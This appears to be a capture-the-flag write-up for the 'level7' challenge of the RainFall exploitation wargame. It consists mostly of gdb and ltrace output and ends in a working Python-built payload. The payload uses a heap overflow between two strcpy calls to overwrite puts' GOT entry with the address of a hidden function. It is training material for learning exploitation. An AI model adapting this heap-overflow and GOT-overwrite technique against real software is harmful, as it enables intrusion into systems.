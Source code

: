 ```
0x080484f4  m
0x08048521  main
```

./level7 $(python -c 'print "A" * 21 + "\x08\x04\x84\xf4"[::-1]') "BBBBBBBB"

```
(gdb) x 0x8049960
0x8049960 <c>:	 ""
  
(gdb) p 0x44
$6 = 68
  
(gdb) x 0x8048703
0x8048703:	 "~~"
```
  
```
(gdb) run "AAAABBBBCCCCDDDD" "ZZZZ1111"

(gdb) x/60wx 0x804a000
  
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x00000000	0x0804a038
0x804a030:	0x00000000	0x00000011	0x5a5a5a5a	0x31313131

(gdb) p/c 0x5a = 'Z'
 
 argv1 write at the heap pointed by p/x 0x804a010+8 = 0x804a018
 argv2                              0x804a038

confirmed by ltrace

level7@RainFall:~$ ltrace ./level7 AAAAAAAA BBBBBBBB

  strcpy(0x0804a018, "AAAAAAAA")
  strcpy(0x0804a038, "BBBBBBBB")

 ```
  
  ```
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
  
  (gdb) disass 0x8048400
    Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
  ```
  
  address of puts `0x8049928` and address of m() function `0x080484f4`
  
  
  `./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')`
  
  Heap after srcpy 1
  ```
  "--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
```
after strcpy2
```
(gdb) disass 0x8048400
puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x080484f4

(gdb) x 0x080484f4
0x80484f4 <m>:	0x83e58955
```



  
  
  
  
  
